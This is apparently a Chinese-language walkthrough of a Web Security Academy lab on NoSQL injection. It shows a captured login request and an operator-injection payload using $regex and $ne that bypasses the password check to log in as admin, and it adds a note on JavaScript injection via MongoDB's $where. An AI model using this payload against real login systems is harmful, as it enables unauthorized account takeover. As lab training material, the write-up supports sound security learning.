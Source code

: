 抓个包看看

```plain
POST /login HTTP/1.1
Host: xxxxxxxxxxxxx.web-security-academy.net
Cookie: session=djMoS9NuJRKCDsBfzRpHwzdkyy9EqZEC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://xxxxxxxxxxx7.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://xxxxxxxxxxx.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"admin","password":"admin"}
```

可以看见最后面传了json格式的文件，我们看见题目要求登录admin的账户，所以就构造playload。

playload： `{"username":{"$regex":"admin.\*"}, "password":{"$ne":""}}`

![](assets/1706959875-df3ab4edbe30e35897332100a0b5e41a.png)

可以看见也是成功登录

这里也把M师傅的JavaScript注入的一些笔记写进来，因为算是同一个知识点了只不过师傅用的是where这个方法

example：

```php
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```
